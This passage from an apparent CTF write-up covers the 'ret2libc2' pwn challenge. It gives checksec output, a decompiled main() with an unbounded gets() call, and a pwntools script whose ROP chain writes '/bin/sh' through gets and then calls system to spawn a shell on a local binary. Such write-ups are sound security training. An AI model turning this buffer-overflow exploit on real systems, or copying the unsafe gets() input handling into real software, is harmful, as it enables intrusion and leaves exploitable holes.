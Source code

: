 ```shell
gef➤  checksec
[+] checksec for '/home/kali/pwn/ret2libc2'
Canary                        : ✘ 
NX                            : ✓ 
PIE                           : ✘ 
Fortify                       : ✘ 
RelRO                         : Partial 
```

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("Something surprise here, but I don't think it will work.");
  printf("What do you think ?");
  gets(&s);
  return 0;
}
```

这个也差不多，只不过没有 /bin/sh，还是有 system 的，所以就先用 gets 写入一个 /bin/sh 。

```python
##coding=utf8
from pwn import *

r = process('./ret2libc2')

offset = 0xffffd5d8 - 0xffffd56c + 4
# bin_sh = 0x08048720

buf = 0x0804b000 - 100
gets_plt = 0x08048460
system_plt = 0x08048490
pop_ebx_ret = 0x0804843d

rop = [
    gets_plt,
    pop_ebx_ret,
    buf,
    system_plt,
    0xdeadbeef,
    buf,
]

print offset
r.sendline('a'*offset + ''.join(map(p32, rop)))
r.sendline('/bin/sh\x00')
r.interactive()
```

## ret2libc3
